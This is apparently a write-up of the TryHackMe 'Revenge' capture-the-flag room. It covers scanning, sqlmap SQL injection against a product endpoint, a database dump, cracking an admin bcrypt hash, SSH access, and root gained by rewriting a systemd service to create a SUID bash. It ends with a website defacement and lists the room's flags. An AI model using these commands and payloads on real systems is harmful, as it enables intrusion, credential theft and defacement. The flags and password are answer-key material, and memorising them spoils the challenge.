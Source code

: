 > Revenge 

**export IP=10.10.22.142**

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
```

# Gobuster

sudo gobuster -u http://$IP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -o gobuster/initial -x txt,php,html,bak,sql,py -t 20

```
/admin (Status: 200)
/app.py (Status: 200)
/contact (Status: 200)
/index (Status: 200)
/login (Status: 200)
/products (Status: 200)
/requirements.txt (Status: 200)
```

In app.py, we have a SQL vulnerability for path product since it is passed directly to command. Let's try sqlmap for sqli.

# SQLMAP

sqlmap -u "http://$IP//products/1*" --batch

```
sqlmap identified the following injection point(s) with a total of 114 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://10.10.22.142:80//products/1 AND 8106=8106

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.10.22.142:80//products/1 AND (SELECT 3548 FROM (SELECT(SLEEP(5)))JiVH)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: http://10.10.22.142:80//products/-6822 UNION ALL SELECT 94,94,94,94,94,94,94,CONCAT(0x71707a6b71,0x6a724a7262704c44694c6b735643556747574465554c516347625758734654766c514f7759427864,0x716a6a6a71)-- -
```

# Enumerating Database

sqlmap -u "http://$IP//products/1*" --batch -risk 3 --level 5 --dbs

```
[*] duckyinc
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

# Enumerating Tables

sqlmap -u "http://$IP//products/1*" --batch -risk 3 --level 5 -D duckyinc --tables

```
Database: duckyinc                                                             
[3 tables]
+-------------+
| system_user |
| user        |
| product     |
+-------------+
```

# Dumping data

sqlmap -u "http://$IP//products/1*" --batch -risk 3 --level 5 -D duckyinc --dump


# Flag 1 - From the dump

`thm{br3ak1ng_4nd_3nt3r1ng}`

And one user is suscpicious 

| 1    | sadmin@duckyinc.org  | server-admin | $2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a |

# Cracking the password

hashcat -m 3200 /snap/john-the-ripper/rockyou.txt hash  --user --force

```
$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a:inuyasha
```

We can SSH using that password

# Flag 2 

```
thm{4lm0st_th3re}
```

# Privilege Escalation

sudo -l

```
User server-admin may run the following commands on duckyinc:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable
        duckyinc.service, /bin/systemctl restart duckyinc.service,
        /bin/systemctl daemon-reload, sudoedit
        /etc/systemd/system/duckyinc.service
```

Let's change the configuration file and we can restart the service. Let's create a shell!

## shell.sh

```
#!/bin/bash

cp /bin/bash /tmp/bash && chmod 4755 /tmp/bash
```

And now let's change the duckyinc.service file 

```
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash /home/server-admin/shell.sh
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

# Restart the service

```
sudo /bin/systemctl daemon-reload
sudo /bin/systemctl enable duckyinc.service
sudo /bin/systemctl restart duckyinc.service
```

We have /tmp/bash. `/tmp/bash -p` gives us root!! But we don't have the flag there. Let's see the challenge objectives it says deface the website 

```
mv /var/www/duckyinc/templates/index.html /dev/shm/
```

And now we check /root we have flag3.txt

```
thm{m1ss10n_acc0mpl1sh3d}
```